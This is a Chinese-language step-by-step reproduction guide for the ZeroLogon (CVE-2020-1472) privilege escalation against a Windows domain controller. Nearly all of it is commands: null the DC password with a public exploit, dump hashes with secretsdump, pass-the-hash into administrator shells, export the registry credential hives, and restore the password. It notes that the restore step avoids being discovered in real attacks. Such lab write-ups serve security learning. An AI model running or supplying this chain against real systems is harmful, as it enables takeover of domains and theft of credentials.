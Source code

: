 # CVE-2020-1472 ZeroLogon特权提升漏洞

<font color=green>**注意事项：该过程可能会对域环境造成影响，请勿在生产环境复现**</font>

### 一、漏洞简介：

> NetLogon 远程协议是一种在 Windows 域控上使用的 RPC 接口,被用于各种与用户和机器认证相关的任务。最常用于让用户使用 NTLM 协议登录服务器，也用于 NTP 响应认证以及更新计算机域密码微软MSRC于8月11日 发布了Netlogon 特权提升漏洞安全通告。此漏洞CVE编号CVE-2020-1472， CVSS 评分:10.0。由 Secura 公司的 Tom Tervoort 发现提交并命名为 **ZeroLogon**；
> 攻击者使用 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接的 Netlogon 安全通道时，存在特权提升漏洞。当成功利用此漏洞时，攻击者可无需通过身份验证，在网络中的设备上运行经特殊设计的应用程序，获取域控制器的管理员权限。

### 二、影响范围：

> Windows Server 2012 (Server Core installation)
> Windows Server 2012 R2
> Windows Server 2012 R2 (Server Core installation)
> Windows Server 2016
> Windows Server 2016 (Server Core installation)
> Windows Server 2019
> Windows Server 2019 (Server Core installation)
> Windows Server, version 1903 (Server Core installation)
> Windows Server, version 1909 (Server Core installation)

### 三、需要的环境：

> 1、搭建一个简单的域环境，此处使用Windows Server 2012 R2；不会的可参考
> https://blog.csdn.net/wwl012345/article/details/88934571
> 2、Python环境 最好是python3
> 3、安装Impacket工具包；可参考https://www.freebuf.com/sectool/175208.html
> 4、EXP&POC
> https://github.com/dirkjanm/CVE-2020-1472.git (EXP)
> https://github.com/SecuraBV/CVE-2020-1472.git (POC)

### 四、复现过程：

> 搭建域环境->安装impacket工具包->下载POC及EXP->利用POC检测是否可利用->利用EXP置空域控密码->获得用户hash->通过hash取得一个shell->获得机器保存的原hash->通过获得的hash恢复置空域控密码

---

#### 1.1、Kali安装pip3:

```bash
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python3 get-pip.py
```

#### 1.2、下载安装Impacket工具包：

```bash
git clone https://github.com/SecureAuthCorp/impacket.gitcd /impacket
python3 setup.py install
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgFKfx7Irp7dHNWpEsmGYtzia0kZUVaQ0dvMqOKRK3POs1vwx0j9b5aZw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.3、下载POC&EXP：

```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git  CVE-2020-1472_POC
git clone https://github.com/dirkjanm/CVE-2020-1472.git  CVE-2020-1472_EXP
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgM7nILWrqa23ThGiaPvD0Qd5XUMtRmvdSSthL9yHOiaTov0HzCtS7N4NQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgJb9wv22XXbcxcaMZI0hSKmJg4BDicZQjkjH3SJEBbUNgHBabggq2vtw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.4、利用POC检测：

```bash
cd /root/github/CVE-2020-1472_POC
python3 zerologon_tester.py WIN-C6LETGR17RK 192.168.5.132
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143639.png)

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143640.png)

#### <font color=red>1.5、利用EXP获取域控存储的hash：</font>

```
1.将域控密码置为空密码：
cd /root/github/CVE-2020-1472_EXP
python3 cve-2020-1472-exploit.py WIN-C6LETGR17RK(这是域控主机名) 192.168.5.132(这是域控ip)
2.获得域控上的hash：
cd /root/github/impacket/examples
python3 secretsdump.py tbosec.com/WIN-C6LETGR17RK\$@192.168.5.132 -no-pass
上面是 域名/域控主机名\$@域控ip
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgoIRVC0Fy0p1wqmDUABnkoBaiacz07Nb5P476fBv6eLIJUJAwjrshXYg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhg1jnXp856QZA58R8aFIyhbzpcic4NLgwoJgm1Rv6IwWGaYMxQZQbibKyg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.6、使用hash登录域控：

```
cd /root/github/impacket/examples
python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:36a06e6257a0e2c2b0bb3673f6297df7 administrator@192.168.5.132
或者；建议使用👇
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:36a06e6257a0e2c2b0bb3673f6297df7 tbosec.com/administrator@192.168.5.132
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143641)

#### 1.7、恢复域控密码：

**后面这几步非必须，但真实场景中避免影响正常业务或被发现可以恢复域控密码**

```
参考方法：
https://github.com/risksense/zerologon
1.导出sam等文件到本地，获得域控上边本地保存的置空前的hash
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143641.png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhg0hicLeRqse3MiazibrMy6qt70ZiaNDbzlmibFatEUatHl5pFcP2f8nZKMYQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.8、通过sam等文件获得原ntlm hash：

```
cd /root/github/impacket/examples
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgszo0lLa0EZXmmIHYw2mnJIhlSpwFmofViaicy85A4DcPHjpqXstgo04w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.9、恢复原hash：

```
git clone https://github.com/risksense/zerologon.git
cd zerologon
python3 reinstall_original_pw.py WIN-7JMG7PQ1LL8(域控主机名) 192.168.5.132 f9bca1e49fbfb7fec5fc54d80c72a79c(这是上面红框的后半部分)
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgSrYibZGYe5PWwgF6CibzFsibeUYIY9g43icpPzqp2ibwpGVn9KA8DXOwySw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 2.0、确认是否恢复成功：

**再次尝试获取hash已经不能成功了，成功恢复**

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143642.png)

#### 最后：

------

如果过程出现部分错误，可参考下面的帖子，前人已整理出来

http://0x3.biz/archives/1960.html
